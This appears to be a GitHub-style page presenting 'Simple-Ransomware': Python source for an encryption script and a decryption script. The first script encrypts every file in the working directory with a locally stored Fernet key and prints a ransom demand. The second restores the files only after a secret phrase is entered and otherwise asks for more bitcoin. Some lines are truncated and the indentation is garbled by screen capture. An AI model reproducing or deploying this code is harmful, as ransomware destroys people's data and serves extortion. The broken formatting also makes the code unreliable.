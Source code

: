 # Simple-Ransomware
#This is my basic but effective ransomware creation.
Ransomware python code
Encryption:
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

#let's find some files

files= []

for file in os.listdir():
        if file == "voldemort.py" or file == "thekey.key" or file == "decryp>
                continue
        if os.path.isfile(file):
                files.append(file)

print(files)

key = Fernet.generate_key()

with open("thekey.key", "wb") as  thekey:
        thekey.write(key)

for file in files:
        with open(file, "rb") as thefile:	
contents = thefile.read()
        contents_encrypted = Fernet(key).encrypt(contents)
        with open(file, "wb") as thefile:
                thefile.write(contents_encrypted)

print("All of your files have been encrypted!. Sen>








Decryption:
GNU nano 8.2                      decrypt.py                               
 #!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

#let's find some files

files= []

for file in os.listdir():
        if file == "voldemort.py" or file == "thekey.key" or file == "decryp>
                continue
        if os.path.isfile(file):
                files.append(file)

print(files)


with open("thekey.key", "rb") as key:
        secretkey = key.read()

secretphrase = "mushrooms"
user_phrase = input("Enter the secret phrase to decrypt your files\n")
if user_phrase  == secretphrase:
for file in files:
                with open(file, "rb") as thefile:
                        contents = thefile.read()
                contents_decrypted = Fernet(secretkey).decrypt(contents)
                with open(file, "wb") as thefile:
                        thefile.write(contents_decrypted)
                print("Congrats! Your files are decrypted. enjoy your mushro>
else:
        print("Sorry, wrong secret phrase. Send me more bitcoin.")


